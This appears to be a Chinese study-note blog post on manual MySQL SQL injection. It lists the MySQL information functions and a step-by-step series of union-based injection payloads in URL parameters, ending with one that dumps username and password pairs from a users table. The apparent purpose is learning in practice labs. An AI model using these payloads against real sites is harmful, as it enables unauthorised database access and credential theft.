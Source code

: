 ```yaml
---
layout: post
title: MySQL手工注入之基本注入流程
categories: 安全知识
description: MySQL手工注入之基本注入流程
keywords: sql注入
---
```


# mysql 盲注学习

盲注有哪些分类？
总体来讲，盲注分为**布尔型**和**延时型**两大类。

[一文搞定 MySQL 盲注](https://www.anquanke.com/post/id/266244#h3-2)

[sql 介绍](http://www.yowell.pw/?p=327)


# 收集信息
在爆出的字段值里面可以替换为我们的恶意语句，前期主要是收集信息，包括判断当前数据库是否是root用户，MySQL的版本等，一般收集这些信息常用一些MySQL自带的函数去收集信息:MySQL常用的系统函数

```dotnetcli
version()            #MySQL版本user()               
#数据库用户名database()           #数据库名@@datadir            #数据库路径
@@version_compile_os #操作系统版本

```

```powershell

?id=1'		(测试是否存在注入,报错说明闭合成功，则存在）
?id=1		(测试是否存在注入,报错说明闭合成功，则存在）
?id=1'-- -		(注释后面多余的’limit 0,1 页面正常）
?id=1'order by n-- -		(order by 猜列数）
?id=-1’union select 1,2,3-- -
?id=-1’union select 1,2,database()-- -		(在页面回显出当前的数据库名字）
?id=-1’union select 1,2,group_concat(table_name) from information_schema.tables where t			able_schema=database() -- -		(爆出当前数据库的所有表）
?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' -- -		(爆出目标表的列名）
?id=0‘ union select 1,2,group_concat(username,0x3a,password) from users-- -		(爆字段)

```

## 查询当前数据库名

```dotnetcli
id=1' and 1=2 UNION SELECT 1,database(),3 --+

```
## 查询MySQL版本

```dotnetcli

id=1' and 1=2 UNION SELECT 1,2,version() --+

```
## 查询数据库用户和路径

```dotnetcli
id=1' and 1=2 UNION SELECT 1,user(),@@datadir --+

```

# 查询表名

database 查询数据库

```dotnetcli
id=1' and 1=2 UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+

```
## 单引号-数据库

```dotnetcli
id=1' and 1=2 UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+

```

# 转载
[新手科普 | MySQL手工注入之基本注入流程
](https://cloud.tencent.com/developer/article/1482397)